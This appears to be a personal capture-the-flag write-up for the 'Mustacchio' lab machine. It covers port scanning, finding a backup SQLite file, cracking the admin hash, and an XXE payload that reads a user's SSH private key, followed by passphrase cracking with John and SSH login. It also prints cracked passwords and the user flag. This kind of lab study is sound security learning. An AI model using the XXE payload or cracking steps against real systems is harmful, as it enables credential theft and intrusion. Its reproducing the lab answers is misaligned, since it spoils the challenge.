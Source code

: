 # CTF Journal Entry: Mustacchio (IP: 10.201.90.250)

**Challenge Rating:** Medium  

**Challenge:**  
This machine revolves around reconnaissance, file discovery, web application analysis, cracking hashes, and exploiting XML External Entity (XXE) vulnerabilities to extract sensitive data. It highlights common misconfigurations like accessible backup files, improperly secured SSH keys, and vulnerable XML parsers.

---

## Skills Demonstrated:
- VPN setup for lab access  
- Reconnaissance with Nmap, Zenmap, Rustscan  
- Directory brute-forcing with Gobuster, Feroxbuster, FFUF  
- File analysis (`.bak` → SQLite DB, `strings`, `sqlite3`)  
- Credential extraction & hash cracking with **John the Ripper** and **Hashcat**  
- Login testing with **SSH**, `sshpass`, and `curl`  
- Web enumeration on custom ports (80, 8765)  
- Vulnerability exploitation using **XXE (XML External Entity)**  
- Extracting SSH private keys via XXE payloads  
- Cracking SSH private key passphrase with `ssh2john` + John  
- Privilege escalation enumeration (`strings`, setuid binary analysis)  

---

## Notes

### Initial Recon
- Target: `10.201.90.250`  
- Scanned with Zenmap and Rustscan → Open ports:  
  - **22/tcp SSH**  
  - **80/tcp HTTP**  
  - **8765/tcp HTTP**  

- Website showed filler text, robots.txt blocked (`Disallow: /`).  

### Enumeration
- Ran Gobuster & Feroxbuster → discovered `user.bak`.  
- File was SQLite DB with table `users (username, password)`.  
- Extracted admin hash:  
  ```
  admin : 1868e36a6d2b17d4c2745f1659433a54d4bc5f4b
  ```  

- Cracked with John (rockyou.txt):  
  ```
  admin : bulldog19
  ```  

### SSH Attempts
- Tried SSH login with credentials → failed (publickey required).  
- Discovered web login on `http://10.201.90.250:8765`.  
- Logged in using `admin : bulldog19`.  

### Discovery & XXE Exploitation
- Source code hints:  
  ```html
  <!-- Barry, you can now SSH in using your key!-->
  ```  

- Discovered `/auth/dontforget.bak` (XML file).  
- Hints toward XML parsing.  

- Confirmed XXE vulnerability with payloads:  
  ```xml
  <?xml version="1.0"?>
  <!DOCTYPE r [
    <!ELEMENT r ANY >
    <!ENTITY example SYSTEM "file:///home/barry/.ssh/id_rsa">
  ]>
  <r>
    <name>&example;</name>
  </r>
  ```  

- Successfully extracted **Barry’s SSH private key** (encrypted).  

### Cracking SSH Private Key
- Converted key for John:  
  ```bash
  python /usr/share/john/ssh2john.py id_rsa > id_rsa.hash
  john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
  ```  

- Cracked passphrase: **urieljames**  

- SSH access gained:  
  ```bash
  ssh barry@10.201.90.250 -i id_rsa
  ```  

### User Flag
- Retrieved `user.txt`:  
  ```
  62d77a4d5f97d47c5aa38b3b2651b831
  ```  

### Privilege Escalation Enumeration
- Found `live_log` setuid binary in `/home/joe/`:  
  ```
  Live Nginx Log Reader → calls tail -f /var/log/nginx/access.log
  ```  
- Possible vector for privesc (further analysis needed).  

---

## Takeaways
- Always check for `.bak` and `.db` files → often contain credentials.  
- Don’t overlook custom ports like 8765 → admin panels may hide there.  
- XXE is powerful for **local file disclosure**.  
- SSH private keys may require **passphrase cracking**.  
- Privilege escalation often lies in **setuid binaries**.  

---

